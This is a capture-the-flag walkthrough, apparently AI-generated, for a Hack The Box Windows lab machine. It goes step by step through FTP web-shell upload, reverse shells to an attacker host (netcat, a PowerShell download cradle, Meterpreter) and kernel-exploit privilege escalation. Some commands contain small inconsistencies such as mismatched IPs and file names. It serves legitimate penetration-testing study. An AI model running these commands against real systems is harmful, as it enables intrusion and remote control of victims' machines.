 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)


## 🧭 Reconnaissance

**Full port scan:**
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
```

**Targeted version/service scan:**
```bash
nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
```

---

## 🌐 [Web](HTTP) & [FTP](FTP) Enumeration

**Check FTP access (Anonymous allowed):**
```bash
ftp 10.10.10.5
# Login: anonymous / [blank]
```

**Identify if FTP root = Web root:**
```bash
# Upload test file or observe files:
put test.html
# Check in browser: http://10.10.10.5/test.html
```

**Check headers for ASP.NET support (e.g. using Burp):**
```
X-Powered-By: ASP.NET
```

---

## 📥 Initial Foothold (Webshell Upload)

**Copy a basic ASPX web shell:**
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

**Upload via FTP:**
```bash
ftp> put cmd.aspx
```

**Access webshell:**
```
http://10.10.10.5/cmd.aspx
```

**Execute command (example):**
```
whoami
```

---

## 🐚 Reverse [Shell](SSH) (Multiple Methods)

### Option 1: Netcat

**Start SMB share:**
```bash
mkdir smb
cp /usr/share/windows-binaries/nc.exe smb/
sudo smbserver.py share smb
```

**Start listener:**
```bash
nc -lnvp 443
```

**From webshell:**
```cmd
\\10.10.14.14\share\nc.exe -e cmd.exe 10.10.14.14 443
```

---

### Option 2: Nishang (PowerShell TCP)

**Edit and host reverse shell:**
```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 smb/
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443" >> smb/Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```

**From webshell:**
```powershell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/Invoke-PowerShellTcp.ps1')"
```

---

### Option 3: Meterpreter

**Generate payload:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=666 -f aspx -o met_rev_666.aspx
```

**Upload via FTP:**
```bash
ftp> put met_rev_666.aspx
```

**Start handler:**
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.13
set LPORT 666
run
```

**Trigger callback:**
```
curl http://10.10.10.5/met_rev_443.aspx
```

---

## 🔧 Privilege Escalation

```
getuid
```

```
systeminfo
```

**Check .NET versions:**
```cmd
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

**Use [Watson](https://github.com/rasta-mouse/Watson) (uploaded via SMB):**
```cmd
\\10.10.14.14\share\Watson.exe
```

https://github.com/abatchy17/WindowsExploits

https://www.exploit-db.com/exploits/40564

**Pick MS11-046 (example):**
```bash
wget https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe
```

**Upload and run:**
```cmd
C:\inetpub\wwwroot\MS11-046.exe
```

**Confirm SYSTEM shell:**
```cmd
whoami
```

---

## 🎯 Flags

```cmd
type C:\Users\babis\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

---

Let me know if you want this exported as a Markdown file or want to move on to another box! 💥